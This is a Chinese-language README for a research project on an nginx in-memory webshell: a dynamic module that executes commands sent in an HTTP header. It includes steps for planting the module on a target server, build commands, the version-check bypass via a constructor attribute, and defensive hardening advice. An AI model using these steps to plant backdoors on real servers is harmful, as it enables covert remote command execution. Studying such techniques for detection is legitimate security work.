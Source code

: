 # 全链路内存马系列之 nginx 内存马

![](img/webshellattckchain.jpg)
其他内存马
- [ebpf 内核马](https://github.com/veo/ebpf_shell)
- [websocket 内存马](https://github.com/veo/wsMemShell)
- ### 注意
本项目不含有完整的利用工具，仅提供无害化测试程序、防御加固方案，以及研究思路讨论
- ### 测试程序使用方式
测试环境：Nginx 1.18.0

下载测试程序 [releases](https://github.com/veo/nginx_shell/releases) 

将下载的so放至目标服务器上，修改 nginx.conf 配置文件在第一行添加以下内容，path为路径
```
load_module path/ngx_http_cre_module.so;
```
然后重载nginx
```
nignx -s reload
```

POST HTTP header `vtoken: whoami` （测试程序只允许使用 `whoami` 命令）

如果无结果返回，可尝试增减header数量
![](img/run.jpg)
![](img/run2.jpg)

- ### 编译方式
```
wget https://nginx.org/download/nginx-1.18.0.tar.gz
tar -zxvf nginx-1.18.0.tar.gz
cd nginx-1.18.0
git clone https://github.com/veo/nginx_shell.git
./configure --with-compat --add-dynamic-module=./nginx_shell/
make modules
```
编译后的so文件位于 nginx-1.18.0/objs/ngx_http_cre_module.so


- ### 一、技术特点
1. 无需临时编译（传统的 nignx so backdoor 需要临时编译）
2. 兼容 1.9.11 以后的所有版本
3. 无需额外组件支持


- ### 二、技术缺点
1. 有so文件落地
2. 需要 nignx -s reload 权限

- ### 三、技术原理
nginx module 支持动态加载so，通过 __attribute ((constructor))的方式绕过nginx module version check，可以编译出适应所有nginx版本的module。
使用header_filter可以取得命令执行的参数，通过body_filter可以返回命令执行后的结果


- ### 四、研究中遇到的问题
1. 绕过nginx对于module的版本检测

    通过 __attribute ((constructor))的方式绕过


2. 编写的module要兼容大部分版本

    使用较早版本的函数，不使用高版本新增函数

3. 目标编译参数 --without-http-cache 不一致会导致 ngx_http_request_s 结构体变化，程序无法正常使用
   
   编译了两个版本支持不同的编译环境

- ### 五、防御加固方案
1. 监测Nginx Module的加载，Nginx进程的行为
2. 查杀落地文件
3. 收敛 nignx -s reload 权限